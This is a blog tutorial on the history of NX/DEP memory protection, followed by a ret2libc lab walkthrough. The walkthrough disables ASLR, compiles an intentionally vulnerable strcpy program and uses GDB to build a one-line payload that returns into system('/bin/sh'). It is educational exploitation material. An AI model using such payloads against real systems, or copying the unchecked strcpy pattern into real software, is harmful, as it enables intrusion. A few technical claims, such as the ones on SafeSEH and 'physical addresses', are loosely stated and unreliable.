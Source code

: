 ```yaml
---
layout: post
title: Bypassing NX/DEP
date: 2017-10-02 21:28:16
description: Tutorial I go through bypassing NX/DEP and the history of this security mechanism.
tags: reverse engineering, pwn, x86, nx
categories: blog
---
```

![Ryoko vs Nagato](/assets/img/Ryoko_vs_Nagato.png "Ryoko vs Nagato"){:class="featured-image"}

Alright, SO! I've spent about 14hrs working on this tutorial with my Kali box, and kept getting different addresses for the dynamic libraries. Still haven't learned why this is, but I WILL find the solution for this.

---

## Abstract:

In this writeup, I'll be going over the mechanism that makes enables programs to not have an executable stack, the history of it, and how to bypass this.

---

## History

Starting in 1961, the Burroughs 5000 had hardware support to prevent the entire stack from being executable. They implemented a tagged architecture, which provides an extra bit per word to signify if the word is executable or not.

- [Burroughs Large Systems](https://en.wikipedia.org/wiki/Burroughs_large_systems#Tagged_architecture)
- [Tagged Architecture](https://en.wikipedia.org/wiki/Tagged_architecture)

---
![B5000](/assets/img/b5000.png "B5000"){:class="featured-image"}
Executive space protection has also been incorporated into operating system design to prevent code injection. Here are a few operating systems and when they implemented NX into their OS':

### Linux:
![linux](/assets/img/penguin.png "linux"){:class="featured-image"}
- Android 2.3 and later have NX pages by default.  
- Some modern Linux distros don't enable "HIGHMEM64" (a way to increase the usable address space) by default, which is required for NX in 32-bit mode. This is because it causes boot failures on pre-Pentium Pro and Celeron M processors without NX support.  
- Ubuntu has always had NX memory protection so long as there was hardware to support it as well. In a case where you don't have hardware to support it, Ubuntu's 32-bit kernels provide an approximation of the NX CPU feature via emulation.

### Mac OS:
For macOS, their Intel chips support the NX bit, though the version determines what areas have the feature to be or not to be executable. (s/o to Shakespeare xD)  
- Mac OS X 10.4 only supported NX on the stack, whereas Mac OS X 10.5's 64-bit executables have NX stack and heap protection.

### Windows:
It wasn't until:
- Windows XP SP2 (2004) and Windows Server 2003 SP1 (2005) that the NX features were first implemented on the x86 architecture.  
Microsoft defines areas in a program that are Non-Executable as "Data Execution Prevention" or DEP.  

However, there are a few clauses:  
1. Only critical Windows Services utilized DEP.  
2. These features were only turned on by default if the hardware supported the feature. If it didn't, no protection was given.  

These versions didn't have Address Space Layout Randomization (ASLR), which "randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap, and libraries."  

Later versions like Windows Vista and Windows Server 2008 had both ASLR + DEP. For the 32-bit version of these systems, Microsoft added Physical Address Extension (PAE). 64-bit systems have ASLR + DEP natively.  

From version Vista on, users can determine whether DEP is enabled or disabled for a particular process in the **Processes** tab of the **Windows Task Manager**. Microsoft implements software DEP called "Safe Structured Exception Handling" (SafeSEH). When there's an attempt to execute code in an area that's not allowed, it checks the exception handler table and calls the correct exception for this incident.

---

## Time for the more fun part! Let's get exploiting!

This little `vuln.c` program takes the input from the argument, and then prints it.

Nothing too crazy here:

```c
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv) {
    char buf[20];
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    return 0;
}
```
Before we compile this, we must turn off ASLR. By disabling ASLR, we can see the real physical addresses. Don't worry, I will have tutorials for defeating ASLR soon enough. ;)



## Disable ASLR
```bash
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

Now that we've disabled ASLR and verified it's off, let's compile the program and enable NX.

```bash
gcc -fno-stack-protector vuln.c -o vuln
execstack -c vuln
```

Perfect! Before we break this down with GDB, we gotta go over what's happening. When we execute, it grabs the dynamic libraries that are imported and all their functions and places them in memory (even the functions that aren't being used in the program).

This is important because the libc library also contains the function system(). The first argument of system() will execute a Linux command. We will be executing "/bin/sh" which will get us a shell. We also must find the string "/bin/sh" (which is also in libc). ;D

![nx-ex1](/assets/img/nx-ex1.png "nx-ex1")

## Breaking It Down in GDB
Sweet. So now let's set a breakpoint at main, and then find the address of the system() function.
```python
(gdb) break main
(gdb) run
(gdb) print system
(gdb) find &system, +99999999, "/bin/sh"
```
![nx-ex2](/assets/img/nx-ex2.png "nx-ex2")

Awesome!! So we have the address for system() → 0xb7e56190 && "/bin/sh" → 0xb7f76a24.

## Exploiting the Vulnerability
Now we have all our variables that we need. So to push our addresses onto the stack, we create a string that has:

1. 32 bytes of crap (A's),
2. then the address for system(),
3. then 4 bytes of crap again,
4. and then the string "/bin/sh".

```bash
./vuln $(python -c 'print "A"*32 + "\x90\x61\xe5\xb7" + "A"*4 + "\x24\x6a\xf7\xb7"')
```
![nx-ex3](/assets/img/nx-ex3.png "nx-ex3")

Who got shell? We got shell!!!!

## Additional Resources
- [Exploit Development: Stack Buffer Overflow Bypass NX/DEP](https://tehaurum.wordpress.com/2015/06/24/exploit-development-stack-buffer-overflow-bypass-nxdep/)
- [Executable Space Protection](https://en.wikipedia.org/wiki/Executable_space_protection#OS_implementations)
- [Another Bypassing NX Tutorial](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)
- [What is the use of -fno-stack-protector?](https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector)
- *Hacking: The Art of Exploitation* by Jon Erickson - [Buy on Amazon](https://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)
- [lpr LIBC RETURN Exploit](http://insecure.org/sploits/linux.libc.return.lpr.sploit.html)
- [Microsoft's Implementation of NX (DEP)](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366553(v=vs.85).aspx)
- [Detailed Description of the DEP Feature](https://support.microsoft.com/en-us/help/875352/a-detailed-description-of-the-data-execution-prevention-dep-feature-in)
- [ASLR on Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
- [Safe Structured Exception Handling (SafeSEH)](https://msdn.microsoft.com/en-us/library/windows/desktop/ms680657(v=vs.85).aspx)
- [Address Space](https://en.wikipedia.org/wiki/Address_space)
- [Dynamic Memory Allocation](https://en.wikipedia.org/wiki/Dynamic_memory_allocation)
- [Stack-based Memory Allocation](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
